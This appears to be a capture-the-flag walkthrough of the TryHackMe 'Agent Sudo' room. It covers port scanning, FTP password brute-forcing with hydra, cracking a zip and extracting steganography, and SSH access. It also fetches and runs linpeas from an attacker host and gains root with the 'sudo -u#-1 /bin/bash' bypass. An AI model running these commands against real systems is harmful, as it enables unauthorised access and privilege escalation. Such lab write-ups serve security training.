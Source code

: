 # Agent Sudo

**Room Link:** [https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)



## Enumerate

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
nmap -p- $VICTIM
```

### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (37) (4).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Burp

Change the user-agent to C

**From**

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

**To**

<figure><img src="../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (83) (4).png" alt=""><figcaption></figcaption></figure>

## Hash cracking and brute-force

### TCP/21 - FTP&#x20;

**Kali**

```
hydra -l chris -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ftp $VICTIM
Username: chris
Password: crystal
```

<figure><img src="../../.gitbook/assets/image (2) (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (41) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
binwalk cutie.png 
binwalk cutie.png -e
```

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john 8702.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

<figure><img src="../../.gitbook/assets/image (59) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
7z e 8702.zip
Password: alien
```

<figure><img src="../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

### Cyber Chef

Link: [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

<figure><img src="../../.gitbook/assets/image (58) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf cute-alien.jpg
Password: Alien51
```

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh james@$VICTIM
Password: hackerrules!
```

**Victim**

```
ls
```

<figure><img src="../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp james@$VICTIM:/home/james/Alien_autospy.jpg .
```

### LinPeas

Linpeas found that sudo is vulnerable, so I looked at the version online and found a way to escalate my privilege's.&#x20;

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Link:** [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

**Victim**

```
sudo -u#-1 /bin/bash
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>






















